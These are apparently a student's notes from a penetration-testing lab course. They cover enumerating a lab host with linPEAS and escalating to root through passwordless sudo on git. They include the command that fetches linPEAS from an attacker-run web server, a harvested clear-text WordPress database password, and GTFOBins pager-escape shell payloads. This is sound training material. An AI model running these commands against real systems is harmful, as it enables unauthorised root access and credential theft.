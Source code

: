 ### A Link to the Past

- Local enumeration with *linPEAS*
-  copy **linpeas.sh** to the **websrv1** directory and start a Python3 web server to serve it.
	- `cp /usr/share/peass/linpeas/linpeas.sh .`
	- `python3 -m http.server 80`
- Download the enumeration script with **wget**
	- `wget http://192.168.119.5/linpeas.sh`
- Use **chmod** to make the script executable
	- `chmod a+x ./linpeas.sh`
- Run the script
	- `./linpeas.sh`
- Since we have already enumerated MAILSRV1 without any actionable results and this machine is not connected to the internal network, we have to discover sensitive information, such as credentials, to get a foothold in the internal network. To obtain files and data from other users and the system, we'll make elevating our privileges our priority.
- Reviewing *linPEAS*
	- Listing 21 shows that daniela can run **/usr/bin/git** with sudo privileges without entering a password.
	- Before we try to leverage this finding into privilege escalation, let's finish reviewing the linPEAS results. Otherwise, we may miss some crucial findings.
	- The next interesting section is *8Analyzing Wordpress Files*, which contains a clear-text password used for database access.
		-  Save the password in the **creds.txt** file 
	- Another interesting aspect of this finding is the path displayed starts with **/srv/www/wordpress/**. The WordPress instance is not installed in **/var/www/html** where web applications are commonly found on Debian-based Linux systems. While this is not an actionable result, we should keep it in mind for future steps
	- Continue reviewing the linPEAS results. In the Analyzing *Github Files* section, we'll find that the WordPress directory is a *Git repository*.
		-  Directory is owned by root
		- Can leverage sudo to use Git commands in a privileged context and therefore search the repository for sensitive information.
- Summary of linPeas output:
	- WEBSRV1 runs Ubuntu 22.04 and is not connected to the internal network. The *sudoers* file contains an entry allowing daniela to run **/usr/bin/git** with elevated privileges without providing a password. In addition, we learned that the WordPress directory is a Git repository. Finally, we obtained a clear-text password in the database connection settings for WordPress.
	- 3 Potential Attack Vectors
		- Abuse sudo command /usr/bin/git
		- Use sudo to search the Git repository
		- Attempt to access other users with the WordPress database password
- Consult *GTFOBins*
	- To find potential abuses when a binary such as git is allowed to run with sudo
	- Attempt to privesc from GTFOBins
		- `sudo PAGER='sh -c "exec sh 0<&1"' /usr/bin/git -p help`
		- result -> failed
	- Attempt 2 (using *less* pager)
		- `sudo git -p help config`
		- To execute code through the pager, we can enter ! followed by a command or path to an executable file. 
		- We can enter a path to a shell. Let's use **/bin/bash**
			- `!/bin/bash`
			- `whoami`
			- result -> root
	- We successfully elevated our privileges on WEBSRV1.
	- Continue to search the Git repository for sensitive information
	- Change our current directory to the Git repository
		- `cd /srv/www/wordpress/`
	- Display the state of the Git working directory with **git status**
		- `git status`
	- Show commit history with **git log**
		- `git log`